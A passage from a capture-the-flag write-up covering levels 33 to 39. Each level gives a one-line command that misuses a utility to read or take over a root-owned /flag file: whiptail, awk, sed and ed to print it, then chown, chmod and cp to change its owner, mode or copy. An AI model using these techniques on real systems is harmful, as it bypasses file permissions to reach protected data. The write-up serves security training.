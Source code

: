 ### Level 33 - whiptail

```bash
$ whiptail --textbox /flag 20 60
```

### Level 34 - awk

```bash
$ awk 'BEGIN { while (getline < "/flag") print }'
```

### Level 35 - sed

```bash
$ sed -n 'p' /flag
```

- `-n` suppresses automatic printing of pattern space.
- `'p'` specifies the pattern to match, which effectively prints every line.
- `/flag` is the file you want to read.

### Level 36 - ed

Open the file with `ed` editor and write `p` to print its content.

```bash
$ ed /flag
56
p
```

<center>
    <h1>
Permissions
    </h1> 
</center>

### Level 37 - chown

Change the ownership of `/flag` from `root` to `hacker` so we are able to read it.

```bash
$ chown hacker /flag && cat /flag
```

### Level 38 - chmod

Change the files mod bits to `read` so we are able to read it.

```bash
$ chmod +r /flag && cat /flag
```

### Level 39 - cp

```bash
cp --backup --no-preserve=all /flag ./flag.txt && cat flag.txt
```
